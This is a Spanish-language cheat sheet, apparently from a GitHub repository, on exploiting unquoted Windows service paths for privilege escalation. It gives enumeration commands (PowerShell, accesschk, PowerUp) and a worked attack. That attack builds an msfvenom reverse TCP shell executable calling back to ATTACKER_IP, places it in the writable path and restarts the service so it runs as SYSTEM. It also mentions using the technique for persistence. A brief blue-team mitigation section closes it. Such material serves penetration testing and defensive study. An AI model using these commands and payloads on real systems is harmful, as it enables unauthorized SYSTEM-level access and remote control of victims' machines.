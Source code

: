 # 🛠️ Unquoted Service Paths - Cheat Sheet

## 🧠 Concepto

El vector de ataque **Unquoted Service Path** (Rutas de servicio sin comillas) se basa en rutas mal configuradas en servicios de Windows. Si el binario de un servicio tiene espacios en su ruta y no está entre comillas, Windows intentará ejecutar cada parte del camino secuencialmente hasta encontrar un ejecutable. Esto puede permitir a un atacante con permisos de escritura en alguna de esas rutas inyectar un ejecutable malicioso.

## ✅ Requisitos

* El servicio corre con privilegios elevados (por ejemplo, SYSTEM).
* La ruta del binario del servicio contiene espacios y **no está entrecomillada**.
* El atacante tiene **permisos de escritura** en alguna carpeta dentro de esa ruta.

## 🔁 Flujo de ataque

1. **Enumerar servicios vulnerables** (sin comillas y con espacios).
2. **Identificar directorios donde se tiene permiso de escritura**.
3. **Colocar un ejecutable malicioso** (payload) en esa ruta.
4. **Reiniciar el servicio** (si es posible) o esperar a que reinicie.

---

## 🔍 Enumeración (PowerShell)

```powershell
# Ver servicios sin comillas en sus rutas
Get-WmiObject win32_service | Where-Object { $_.PathName -notlike '"*"' -and $_.PathName -like '* *' } |
Select-Object Name, DisplayName, PathName, StartMode

# Alternativa con más control
Get-CimInstance -ClassName Win32_Service |
Where-Object { $_.PathName -match ' ' -and $_.PathName -notmatch '^"' } |
Select-Object Name, StartMode, PathName

# Verificar permisos sobre rutas potenciales
icacls "C:\Program Files\Some Folder"
```

## 🛠️ Herramientas útiles

* `accesschk.exe` de Sysinternals:

```bash
accesschk.exe -uwcqv "Users" "C:\Program Files"
```

* `PowerUp.ps1` (PowerSploit):

```powershell
Invoke-AllChecks | Out-String | Select-String Unquoted
```

* `SharpUp.exe` o `WinPEAS.exe` (enumeración automática).

## 📌 Ejemplo

### Ruta vulnerable:

```
C:\Program Files\Some Folder\My App\app.exe
```

### Lo que intenta ejecutar Windows si no hay comillas:

1. `C:\Program.exe`
2. `C:\Program Files\Some.exe`
3. `C:\Program Files\Some Folder\My.exe`
4. `C:\Program Files\Some Folder\My App\app.exe`

### Exploiting:

Si puedes escribir en `C:\Program Files\Some Folder\`, puedes colocar un `My.exe` con un payload y al reiniciar el servicio, se ejecutará como SYSTEM.

---

## ⚙️ Payload de prueba (PowerShell):

```powershell
# Compilar un exe con msfvenom
msfvenom -p windows/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4444 -f exe -o My.exe

# Copiar payload en la ruta vulnerable
copy .\My.exe "C:\Program Files\Some Folder\"

# Reiniciar el servicio (si se tiene acceso)
Restart-Service -Name "NombreServicio"
```

---

## 🧼 Mitigación (Blue Team)

* Siempre entrecomillar rutas con espacios.
* Asignar permisos adecuados a carpetas del sistema.
* Utilizar herramientas como `accesschk` y revisiones periódicas con scripts defensivos.

## 🧾 Notas

* Si no puedes reiniciar el servicio, busca un cronograma (Scheduled Task) o espera un reinicio del sistema.
* Este vector puede usarse también para persistencia si colocas un binario en rutas comunes usadas por múltiples servicios mal configurados.

---

## 📚 Referencias

* [https://attack.mitre.org/techniques/T1574/009/](https://attack.mitre.org/techniques/T1574/009/)
* PowerSploit, WinPEAS, SharpUp

